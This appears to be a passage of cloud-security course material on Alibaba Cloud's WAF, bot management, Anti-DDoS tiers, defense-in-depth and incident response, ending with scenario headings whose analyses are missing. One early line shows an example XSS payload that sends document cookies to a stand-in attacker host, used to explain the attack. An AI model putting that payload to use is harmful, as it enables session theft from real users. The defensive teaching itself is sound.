
Cross-Site Scripting (XSS)
- Attack Mechanism: Attackers inject malicious JavaScript (e.g.
<script>fetch('attacker.com?c='+document.cookie)</script>) into forums or profile fields. - Impact: When victim users view the page, the script executes inside their authenticated browser session, exfiltrating session tokens.
- WAF Mitigation: Scans and sanitizes script tags, event handlers (
onload,onerror), and base64 payloads.
Cross-Site Request Forgery (CSRF)
- Attack Mechanism: Tricks an authenticated user's browser into submitting unauthorized transactions (e.g. bank transfer) to a trusted site.
- WAF Mitigation: Verifies Referer/Origin headers and injects anti-CSRF token verification cookies.
Application Layer DoS: Challenge Collapsar (CC)

Why CC Floods Are Devastating
- Low Bandwidth, High Impact: Unlike volumetric DDoS, a CC attack requires very little bandwidth (e.g. 10 Mbps) to bring down an entire enterprise application.
- Valid TCP Handshakes: Attackers establish complete TCP connections, bypassing Layer 4 SYN flood defenses.
- Resource Exhaustion: Targets computationally heavy URIs (e.g. multi-table database joins, PDF generators, password hashing endpoints) to exhaust backend worker threads.
WAF Intelligent CC Mitigation
- Algorithmic Rate Limiting: Enforces dynamic request thresholds per IP, per session cookie, or per user token.
- Human-Machine Verification: Injects transparent JavaScript challenges or interactive slider CAPTCHAs to block automated bot traffic.
Alibaba Cloud WAF Defense Engines

Synchronous Multi-Engine Pipeline
- IP Reputation Engine: Instantly evaluates incoming source IPs against global threat lists compiled from across Alibaba Cloud's ecosystem.
- Semantic Analysis Engine: Deep natural language and AST parsing of payloads, catching zero-day obfuscations without relying on rigid regex rules.
- Big Data Threat Intelligence: Correlates threat telemetry across thousands of enterprise tenants to neutralize active botnet campaigns in real-time.
Accurate Access Control (ACL)
- Multi-Dimensional Matching: Define custom rules matching IP CIDR, HTTP Method, URI pattern, User-Agent, Referer, and geographical region.
- Flexible Action Policies: Choose between Block, Allow, Rate-Limit, or Challenge (CAPTCHA) based on risk scores.
Bot Management & Anti-Crawler Protection
The Business Threat of Malicious Bots
Automated scrapers inflict severe economic and operational damage across digital enterprises:
- Price & Inventory Scraping: Competitor botnets scrape proprietary pricing algorithms, airline seat inventories, and e-commerce catalogs.
- Credential Stuffing & Account Takeover (ATO): Automated tools testing stolen username/password lists against login endpoints.
- Ticket Scalping & Flash-Sale Hoarding: Headless browser swarms purchasing limited inventory within milliseconds, locking out genuine consumers.
- Origin Server Resource Drain: Aggressive scrapers consuming up to 60%+ of backend compute and database connections.
Advanced Anti-Bot Countermeasures
Alibaba Cloud WAF Bot Management uses multi-layered behavioral verification:
- Browser Fingerprinting: Inspects Canvas, WebGL, audio API, and font rendering signatures to detect headless browsers (Puppeteer, Selenium).
- Human-Machine Interaction Verification: Analyzes mouse cursor velocity, keystroke intervals, and touchscreen gyroscope data to verify biological humans.
- Dynamic Token Injection: Transparently injects encrypted one-time verification tokens into client responses; requests lacking valid tokens are blocked.
- Smart Slider CAPTCHA: Presents friction-free biometric slider puzzles only to suspicious anomalous traffic flows.
WAF Deployment Topologies & CNAME Redirection

CNAME Reverse Proxy Mode
- DNS Redirection: Update the domain's authoritative DNS CNAME record to point to the dedicated WAF cluster hostname.
- Traffic Decoupling: Client traffic routes directly to WAF; WAF strips malicious queries and proxies sanitized traffic to origin SLB/ECS.
- Multi-Cloud & Hybrid Support: Protects servers hosted in Alibaba Cloud, third-party clouds, or on-premises datacenters without moving infrastructure.
Transparent SLB Integration Mode
- Zero DNS Changes: Attach WAF directly to an internal or Internet-facing SLB instance within the same VPC.
- Cloud-Native Simplicity: Enables immediate Layer 7 protection in one click without altering DNS TTLs or domain ownership records.
DDoS Attack Classification & Vectors
Volumetric Attacks (Layer 3/4)
Goal: Completely saturate incoming network bandwidth.
- UDP Floods: High-volume packet floods overwhelming router interfaces.
- ICMP Floods: Echo request floods consuming uplink capacity.
- NTP/DNS Amplification: Reflection attacks multiplying small requests into massive response floods.
Protocol Attacks (Layer 4)
Goal: Exhaust server and firewall state connection tables.
- SYN Floods: Half-open TCP connection exhaustion filling memory queues.
- ACK / FIN Floods: Forcing stateful firewalls to inspect millions of invalid packet states.
- TearDrop / Smurf: Exploiting IP fragmentation and broadcast mechanics to crash operating systems.
Application Attacks (Layer 7)
Goal: Overwhelm backend database and web server CPU.
- HTTP GET/POST Floods: High-frequency valid HTTP requests targeting dynamic pages.
- Slowloris: Sending incomplete HTTP headers at minimal intervals to keep connections open.
- Slow POST: Transmitting POST bodies at 1 byte every few seconds, starving server thread pools.
SYN Flood Mechanics & State Exhaustion

Handshake Exploitation Anatomy
- Standard 3-Way Handshake: Client sends
SYN$ ightarrow$ Server repliesSYN-ACKand allocates memory $ ightarrow$ Client repliesACK. - The Attack Exploit: Attackers send millions of
SYNpackets per second with forged, non-existent source IP addresses. - Backlog Starvation: The server's
SYN_RCVDqueue fills completely waiting for ACK timeouts; legitimate client connections are rejected.
Anti-DDoS Hardware Mitigation
- SYN Cookie Generation: Encodes connection state into the Initial Sequence Number (ISN); avoids allocating server memory until final ACK is verified.
- TCP Proxy Handshake Verification: Anti-DDoS hardware acts as a transparent proxy, validating the full 3-way handshake before forwarding clean connections to origin.
Anti-DDoS Basic: Zero-Cost Native Defense
Always-On Native Cloud Protection
Alibaba Cloud provides default, zero-configuration baseline protection for every public cloud resource:
- Automatic Provisioning: Enabled by default across all Public IP addresses allocated to ECS, SLB, Elastic IP (EIP), and NAT Gateways.
- 100% Free of Charge: Zero licensing fees, zero bandwidth subscription costs, and zero configuration steps required.
- Baseline Mitigation Capacity: Automatically filters up to 5 Gbps of volumetric attack traffic per IP (threshold varies by cloud region).
- Automated Traffic Scrubbing: Diverts anomalous Layer 4 traffic to regional scrubbing nodes and passes clean packets transparently to backends.
The Threshold Boundary & Blackhole Trigger
Understanding the operational boundary between Basic protection and premium services:
- Defense Threshold Ceiling: When volumetric attacks exceed the allocated Basic threshold (e.g. >5 Gbps), Blackhole Routing is automatically triggered.
- Infrastructure Self-Protection: The carrier null-routes traffic to the targeted IP to safeguard shared datacenter backbones and adjacent tenant workloads.
- Service Unavailability: During blackholing, all traffic to the victim IP is dropped at upstream telecommunication routers, causing downtime.
- Enterprise Path: Workloads with strict revenue SLAs must deploy Anti-DDoS Pro or Premium to maintain availability during large-scale attacks.
Anti-DDoS Pro: Mainland China Protection
Terabit-Scale BGP Scrubbing Centers
Anti-DDoS Pro provides enterprise-grade volumetric defense tailored for workloads operating inside Mainland China:
- Custom Multi-Carrier BGP Lines: Integrates dedicated high-bandwidth BGP connectivity spanning China Telecom, China Unicom, China Mobile, and regional ISPs.
- Terabit Scrubbing Capacity: Massive mitigation bandwidth exceeding 1.5+ Tbps per dedicated scrubbing center, neutralizing world-record attack volumes.
- Exclusive Dedicated IP Allocation: Allocates dedicated high-defense IP addresses shielded from public IP sharing risks.
- Origin Cloaking: Obscures origin ECS and SLB IP addresses behind the defense perimeter; direct attacks against origin are rendered impossible.
Elastic Burst Protection Architecture
Financial flexibility combining baseline predictability with automated burst safety:
- Base Protection Bandwidth: Fixed, cost-predictable monthly subscription covering standard expected attack volumes (e.g. 30 Gbps to 100 Gbps).
- Elastic Burst Protection: Automatically scales mitigation limits on-demand to absorb sudden massive spikes without triggering blackholes.
- Pay-as-You-Go Burst Billing: You pay strictly for burst bandwidth on days when actual attack volumes exceed the base package; calm days incur zero extra fees.
- 99.95% Availability SLA: Contractually backed business continuity guarantee supported by dedicated 24/7 Alibaba Cloud security response teams.
Anti-DDoS Premium: Global Anycast Routing

Near-Source Mitigation Principle
- BGP Anycast IP Announcement: A single high-defense Anycast IP is simultaneously broadcast from scrubbing centers globally (Hong Kong, Singapore, US, Germany, Japan).
- Distributed Attack Absorption: Global botnet traffic is automatically routed to the closest regional scrubbing center, preventing transit pipe congestion.
- Sub-Millisecond Routing: Clean traffic returns across Alibaba Cloud's dedicated enterprise SDN backbones directly to protected origins.
Unlimited Protection Mode
- Insurance-Style Plan: Fixed monthly subscription covering unlimited attack counts and unlimited peak gigabits without billing surprises.
- Mission-Critical Gaming & Fintech: Guarantees zero blackholes for international gaming, fintech, and cross-border e-commerce platforms.
BGP Route Injection & Traffic Scrubbing

Automated Scrubbing Pipeline
- Traffic Detection (Out-of-Path): Passive optical taps continuously analyze NetFlow/sFlow telemetry without adding latency to normal traffic.
- Dynamic BGP Injection: When attack thresholds are breached, BGP routes are injected to swing traffic dynamically into scrubbing hardware.
- FPGA Deep Packet Filtering: Custom FPGA hardware filters invalid TCP checksums, SYN floods, amplification packets, and malformed headers at wire-speed.
- Clean Traffic Forwarding: Valid business packets are forwarded via GRE tunnels or VPC private backbones directly to origin SLB/ECS instances.
Blackhole Routing Dynamics & Recovery
The Mechanics of Blackhole Routing
Blackholing is an emergency telecommunications safeguard executed at upstream Tier 1 carrier peering points:
- Why It Happens: When an unshielded IP receives attack volume exceeding its Basic limit, the upstream router redirects all incoming packets into a null route (discard).
- Datacenter Protection: Prevents massive DDoS floods from congesting shared metropolitan peering links and taking neighboring cloud tenants offline.
- Default De-Escalation Window: The default blackhole duration is 2.5 hours. If attack traffic persists after the timer expires, the blackhole is re-applied.
- Blackhole Quota Thresholds: Thresholds scale with the enterprise tenant's overall Alibaba Cloud resource commitment and account credit tier.
How to Avoid and De-escalate Blackholes
Architectural strategies to prevent blackhole triggering and achieve zero-downtime resilience:
- Pre-Attach High-Defense IP: Route public DNS domains through Anti-DDoS Pro or Premium, absorbing volumetric attacks before they ever reach origin IPs.
- Zero Public Origin Exposure: Place all backend application servers and databases in private subnets with no public EIPs attached.
- One-Click Emergency De-escalation: Anti-DDoS Pro and Premium subscribers can invoke emergency un-blackhole operations through the console.
- Automated DNS Failover: Pair Alibaba Cloud DNS with CloudMonitor health checks to instantly redirect traffic away from impacted IP addresses.
Anti-DDoS Edition Feature Matrix
| Feature Parameter | Anti-DDoS Basic | Anti-DDoS Pro | Anti-DDoS Premium |
|---|---|---|---|
| Target Geography | Global Default | Mainland China (Domestic) | International & Cross-Border |
| Mitigation Capacity | 500 Mbps – 5 Gbps | 30 Gbps to >1.5 Tbps | Unlimited Near-Source |
| Network Routing | Standard Cloud IP | China Multi-Carrier BGP | Global BGP Anycast |
| Dedicated Defense IP | Shared Origin IP | ✔ Dedicated BGP IP | ✔ Dedicated Anycast IP |
| Elastic Burst Defense | ✖ (Triggers Blackhole) | ✔ Pay-as-you-go Burst | ✔ Unlimited Plan Option |
| Layer 7 CC / HTTP Defense | Basic Rate Limit | ✔ Integrated WAF Engine | ✔ Integrated WAF Engine |
| SLA Guarantee | Best Effort | ✔ 99.95% Availability | ✔ 99.95% Availability |
| Cost Model | 100% Free | Monthly Base + Burst | Monthly Base + Burst / Unlimited |
Managed Security Services (MSS)

Authorized Penetration Testing
- Simulated Cyber Warfare: Elite white-hat security engineers conduct non-destructive penetration exercises targeting applications and network boundaries.
- Business Logic Flaw Audits: Uncovers critical vulnerabilities invisible to automated tools, including payment logic bypasses and IDOR flaws.
- Actionable Remediation Roadmap: Delivers detailed technical reports with concrete remediation code and configuration recipes.
24/7 Managed Security Operations (MSS)
- Dedicated Security Experts: Round-the-clock monitoring and triage of alarms across Security Center, WAF, and Anti-DDoS.
- Emergency Incident Response: Rapid threat containment, webshell eradication, and forensic root-cause analysis during live security incidents.
Enterprise Defense-in-Depth Blueprint
Perimeter & Network Layers
- Layer 1: Global Edge (Anti-DDoS): Absorb multi-gigabit volumetric floods at regional Anycast scrubbing centers before packets reach origin datacenters.
- Layer 2: Web Application (WAF): Inspect HTTP/HTTPS traffic in memory, blocking OWASP Top 10 exploits, SQLi, XSS, and automated crawler botnets.
- Layer 3: Network Perimeter (SLB & VPC): Terminate TLS handshakes, balance traffic, and confine compute workloads to private, non-routable subnets.
- Layer 4: Micro-Segmentation (Security Groups): Stateful firewall rules strictly limiting ingress ports (e.g. port 80/443 from SLB only, port 3306 from ECS only).
Host, Data & Governance Layers
- Layer 5: Host Runtime (Security Center): Agent-based CWPP monitoring kernel syscalls, blocking webshell uploads, and hotfixing system vulnerabilities.
- Layer 6: Persistent Data (KMS / OSS / RDS): Envelope encryption for all data-at-rest, database IP whitelists, and immutable WORM retention locks.
- Layer 7: Identity & Access (RAM & Bastionhost): Enforce least privilege, mandatory MFA, temporary STS credentials, and recorded bastion jumpbox sessions.
- Layer 8: Audit & Forensic Logging (ActionTrail & SLS): Immutable multi-region API audit trails and centralized security log archiving.
Cloud Security Incident Response Workflow
1. Detect & Alert
Security Center, WAF, or CloudMonitor identifies an active intrusion or volumetric surge, dispatching instant webhooks to SMS, Email, and DingTalk.
2. Contain & Isolate
Dynamically attach compromised ECS instances to an emergency Quarantine Security Group that severs all lateral VPC connectivity while preserving forensics.
3. Eradicate & Patch
Kill rogue C2 processes, quarantine webshell scripts via Security Center, revoke compromised AccessKeys, and apply 0-day WAF virtual patches.
4. Recover & Audit
Restore clean workloads from immutable disk snapshots, conduct full ActionTrail forensic timeline reviews, and update automated baseline rules.
Architectural Security Governance Checklist
Identity & Account Hardening
- Lock Down Account Root User: Enable hardware or virtual MFA on the primary Alibaba Cloud root account. Never create AccessKeys for the root user.
- Enforce Least Privilege (RAM): Create dedicated RAM users for each human administrator; grant strictly minimal permissions bound to specific resource ARNs.
- Leverage RAM Roles & STS: Use instance RAM roles for applications running on ECS instead of embedding long-term AccessKeys in source code.
- Mandatory Privileged Bastion Access: Require all SSH/RDP administrative traffic to traverse Alibaba Cloud Bastionhost with MFA and session recording.
Infrastructure & Cryptographic Hygiene
- Zero Public IP on Databases: RDS and PolarDB instances must reside strictly in private subnets with no public internet endpoints.
- Encrypt All Sensitive Data: Enable KMS Transparent Data Encryption (TDE) on databases and Server-Side Encryption (SSE) on OSS storage buckets.
- Continuous Multi-Region Audit: Enable ActionTrail across all cloud regions, forwarding management event logs to an immutable OSS archive bucket.
- Automated Vulnerability Rhythm: Configure Security Center automated weekly vulnerability scanning and auto-remediation policies.
Scenario 1: Large-Scale Retail Cyber Defense
Scenario Context: A global e-commerce retail platform running on Alibaba Cloud in Region Singapore is preparing for a major flash-sale event. During previous promotions, the platform suffered from distributed 300 Gbps volumetric SYN floods that saturated upstream internet pipes, accompanied by sophisticated SQL injection attacks and automated botnets attempting to scrape checkout prices and hoard inventory.
Design Requirement: The enterprise architect must design an end-to-end security architecture that guarantees 100% web availability, mitigates volumetric network floods, blocks application-layer exploits, and ensures zero database downtime.
Scenario 1: Architectural Analysis
Scenario 2: Critical Zero-Day Vulnerability Response
Scenario Context: A major enterprise running 200 production Linux web servers hosting a corporate content management system receives an emergency notification: a critical Zero-Day Remote Code Execution (RCE) vulnerability in their web framework has been published online with active exploitation in the wild. Attackers are currently attempting to upload persistent webshell backdoors into web directories.
Design Requirement: The security team must immediately block incoming exploit attempts, detect and quarantine any existing webshell backdoors, and remediate the underlying OS/CMS software across all 200 servers with zero production downtime.
Scenario 2: Architectural Analysis
www-data user, and blocking port 80 via Network ACL takes the entire website offline.
Scenario 3: Financial Regulatory Compliance & Data Privacy
Scenario Context: A fintech digital banking application running on Alibaba Cloud must achieve strict regulatory compliance (PCI-DSS and ISO 27001). The compliance audit mandates: (1) All data in transit must enforce TLS 1.2+ encryption; (2) Core databases and backups must be encrypted at rest using customer-managed cryptographic keys with annual rotation; (3) Audit logs must be stored in immutable, tamper-proof storage for 5 years; (4) Databases must have zero public IP exposure.
Design Requirement: Select the architectural combination that completely satisfies all regulatory requirements with minimal operational overhead.
Scenario 3: Architectural Analysis
Module 09: Security Products & Defense Architecture
Comprehensive Cloud Architecture Mastery Achieved!
You have successfully completed the architectural deep dives across Compute (ECS), Networking (VPC), Traffic Management (SLB), Storage (OSS), Databases (RDS), Elasticity (Auto Scaling), Global Edge (CDN), and Cloud Defense (Security Products).